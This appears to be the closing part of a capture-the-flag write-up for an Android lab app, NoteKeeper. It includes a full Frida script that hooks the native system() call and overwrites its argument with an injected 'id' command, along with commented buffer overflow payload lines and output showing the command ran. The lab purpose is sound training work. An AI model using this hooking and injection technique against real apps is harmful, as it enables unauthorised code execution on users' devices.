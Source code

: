 ```powershell
[+] Replaced with new command: id >> /sdcard/Download/hack2.txt
             0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F  0123456789ABCDEF
7ff3ad0970  69 64 20 3e 3e 20 2f 73 64 63 61 72 64 2f 44 6f  id >> /sdcard/Do
7ff3ad0980  77 6e 6c 6f 61 64 2f 68 61 63 6b 32 2e 74 78 74  wnload/hack2.txt
7ff3ad0990  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
[*] system() returned with code: 0x0
MainActivity.parse result=Qa
```

Here's the result.

```bash
beryllium:/sdcard/Download # cat hack2.txt
uid=10344(u0_a344) gid=10344(u0_a344) groups=10344(u0_a344),3003(inet),9997(everybody),20344(u0_a344_cache),50344(all_a344) context=u:r:untrusted_app:s0:c88,c257,c512,c768
```

This is another thing that I found interesting and here's the full frida script for this.

```js
Java.perform(()=> {

    

    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    MainActivity["parse"].implementation = function (Title) {
        // let command = "id >> /sdcard/Download/hack.txt"
        // Title = "A".repeat(100) + command;
        console.log(`MainActivity.parse is called: Title=${Title}`);
        let result = this["parse"](Title);
        console.log(`MainActivity.parse result=${result}`);
        return result;
    };

    test2();
})

function test2(){
    Interceptor.attach(Module.getExportByName(null, "system"), {
        onEnter: function (args) {
            var command = Memory.readUtf8String(args[0]);
            console.log("[*] system() called with command: " + command);
            console.log(hexdump(args[0],{offset: 0,length:48}));

            var newCommand = "id >> /sdcard/Download/hack2.txt";
            Memory.writeUtf8String(args[0], newCommand);

            console.log("[+] Replaced with new command:", Memory.readUtf8String(args[0]));
            console.log(hexdump(args[0],{offset: 0,length:48}));


        },
        onLeave: function (retval) {
            console.log("[*] system() returned with code: " + retval);
        }
    });
    
}
```

## Things I learned from this challenge

- buffer overflow in android
- frida checking function input and output
- hooking `system` function and rewrite the input by changing it in the stack. 
